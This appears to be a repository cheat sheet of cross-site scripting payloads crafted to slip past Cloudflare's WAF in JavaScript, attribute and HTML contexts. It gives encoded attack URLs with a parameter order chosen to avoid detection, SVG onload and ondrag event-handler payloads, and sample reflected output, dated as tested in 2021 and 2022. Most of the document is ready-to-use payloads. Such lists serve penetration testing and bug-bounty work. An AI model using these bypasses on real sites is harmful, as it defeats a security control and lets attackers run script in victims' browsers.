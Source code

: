 # CloudFlare XSS bypasses in different contexts

### JS Context

For **JS** context, when multiple parameters are reflected inside **<script>** tag e.g:
```
<script>
something({"some/thing":{"key":[{"name":"PARAM2_REFLECTION1","age":"","country":"","address1":"PARAM1_REFLECTION2","id":"123"}]}});
</script>
```

Set value of parameter which is reflected first: `</script%20`

Set value of parameter which is reflected afterwards: `><svg/oni=on onload=confirm(2)>`

The parameter which is reflected first, should be placed at end of URL, like:

`https://example[.]com/some/endpoint?param1=%3E%3Csvg%2Foni%3Don%20onload%3Dconfirm(2)%3E&param2=</script%20`

If it is placed before like folllowing, Cloudflare WAF will trigger:

`https://example[.]com/some/endpoint?param2=</script%20&param1=%3E%3Csvg%2Foni%3Don%20onload%3Dconfirm(2)%3E`

Sample Response contents:
```
<script>
something({"some/thing":{"key":[{"name":"</script ","age":"","country":"","address1":"><svg/oni=on onload=confirm(2)>","id":"123"}]}});
</script>
```

### Attribute Context

For Attribute context use:
```
"><svg/oni=on onload=confirm(2)>
'><svg/oni=on onload=confirm(2)>
```

### HTML Context

* For HTML context use:

`<svg/oni=on onload=confirm(2)>` Credits for XSS bypass in HTML context: [Troll_13](https://twitter.com/Troll_13/status/1353713311972552709)

* When `>` is present somewhere after our payload in response page:

`<svg oni=on onload=alert(1)//` e.g reflected as `<svg oni=on onload=alert(1)//</h2>` (Crafted on `February 01, 2022`)
* Situation: No `>` is present after our payload anywhere in response body and at the same time when `>` is not allowed as its allowed in previous payloads, inexistent tag can be provided for xss:

`<o oni=on ondrag=alert(1)>Drag Me` e.g reflected as `<o oni=on ondrag=alert(1)>Drag Me no left angle bracket present here` -> then highlight text and drag it to trigger XSS (Crafted on `February 01, 2022`)


---

Bypasses tested on: `August 26, 2021` and `February 01, 2022`
